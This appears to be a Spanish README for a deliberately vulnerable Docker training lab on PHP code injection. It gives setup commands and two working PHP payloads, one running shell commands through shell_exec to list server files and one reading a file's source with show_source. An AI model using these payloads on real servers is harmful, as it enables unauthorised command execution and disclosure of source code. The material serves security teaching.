 # Code Injection

Descargar y Montar el servidor con Docker:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
cd CodeInjection
sudo chmod -R a+rwx *
sudo docker-compose up
firefox localhost:8181
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente.


Imagen en Dockerhub: https://hub.docker.com/repository/docker/ingenieroricardo/codeinjection/general

